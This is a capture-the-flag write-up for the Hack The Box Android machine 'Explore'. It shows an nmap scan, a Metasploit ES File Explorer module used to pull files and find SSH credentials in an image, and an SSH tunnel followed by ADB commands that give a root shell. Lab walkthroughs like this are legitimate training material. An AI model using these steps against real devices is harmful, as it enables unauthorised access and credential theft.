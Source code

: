 # 📦 HTB - Explore


> Pretty interesting box, first time seeing Android in HTB.

## TL;DR

Exfilter files on device using ES File explorer exploit, get user credentials. Root is straightforward with ADB.

## Footholds

With `nmap` we get the following:

```
# Nmap 7.91 scan initiated Wed Jul 28 14:49:28 2021 as: nmap -A -p- -o nmap.out explore.htb
Nmap scan report for explore.htb (10.10.10.247)
Host is up (0.043s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
33195/tcp open     unknown
[...]
```

* `2222`: SSH server
* `5555`: not interesting, we will see why further
* `33195`: ES File Explorer (with some research)

The only useful port here is `33195`, with a litle research on the web we get that this is possibly a good entrypoint for our exploit.

## User

As this is an easy box ~~and I am lazy~~ I used the forbidden **M e t a s p l o i t**. Using it's `auxiliary/scanner/es_file_explorer_open_port` exploit I managed to exfilter some files off the device:

![Listpics](listpics.png)

We found some Pictures on the device. The `creds.jpg` is very interesting:

![Getfile](getfile.png)

We can now ssh to the device and get `user.txt`.

![creds](creds.jpg)

![User](user.png)

## Root

The idea that came to my mind here was to use ADB to get a root shell on the device. We first need to connect to this device with ADB, so we have to make a tunnel:

```sh
ssh -p 2222 user@explore.htb -L 5555:localhost:5555
```

![Tunnel](tunnel.png)

We can now connect to it:

```sh
adb connect localhost:5555
adb root
adb shell
```

![root](root.png)

![root2](root2.png)

End of the box.

![Rooted](rooted.png)

